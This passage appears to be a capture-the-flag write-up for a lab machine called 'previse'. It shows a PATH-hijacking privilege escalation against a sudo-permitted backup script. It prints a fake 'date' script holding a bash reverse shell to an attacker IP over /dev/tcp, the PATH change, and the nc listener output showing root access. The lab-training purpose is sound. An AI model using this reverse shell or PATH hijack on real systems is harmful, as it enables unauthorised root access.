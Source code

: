 Run sudo -l as user m4lwhere to see what this user can execute as root
```bash
m4lwhere@previse:/$ sudo -l
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```
The script that m4lwhere can run as root:
```bash
m4lwhere@previse:/$ cat /opt/scripts/access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```
The command substitution of ```$(date ...)``` is interesting because it doesn't specify the full path for the binary

Create a binary called date that will trigger a reverse shell and put it in /dev/shm
```bash
m4lwhere@previse:/$ cat /dev/shm/date 
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.102/9001 0>&1
```
Then, append /dev/shm to the path environment variable
```bash
m4lwhere@previse:/$ PATH=/dev/shm:$PATH
m4lwhere@previse:/$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
Now the sudo command must be ran **outside** of the /dev/shm directory for this to work, due to sudo always looking in current directory last for executables. Just start a listener on the attacking machine and run the script as root for the root shell.
```bash
-> % nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.102] from (UNKNOWN) [10.10.11.104] 53902
root@previse:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```
